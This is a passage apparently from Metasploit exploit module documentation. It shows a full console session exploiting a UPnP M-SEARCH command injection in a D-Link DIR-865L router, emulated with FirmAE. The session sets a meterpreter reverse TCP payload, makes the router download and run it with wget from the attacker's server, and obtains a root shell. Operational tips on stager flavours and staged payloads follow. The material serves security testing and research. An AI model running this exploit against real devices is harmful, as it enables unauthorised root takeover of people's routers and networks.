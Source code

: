 ```shell
 #
```
### FirmAE D-Link DIR-865L Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```shell
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > set target 1
target => 1
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > set payload linux/mipsle/meterpreter_reverse_tcp
payload => linux/mipsle/meterpreter_reverse_tcp
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:1900 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.0.2:8080/5W7O47FX
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Client 192.168.0.1 (Wget) requested /5W7O47FX
[*] Sending payload to 192.168.0.1 (Wget)
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.1:59600) at 2023-10-17 18:45:12 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Staged meterpreter payloads might core dump on the target, so use stage-less meterpreter payloads when using the Linux Dropper target.
Some D-Link devices do not have the `wget` command so configure `echo` as cmd-stager flavor with the command `set CMDSTAGER::FLAVOR echo`.
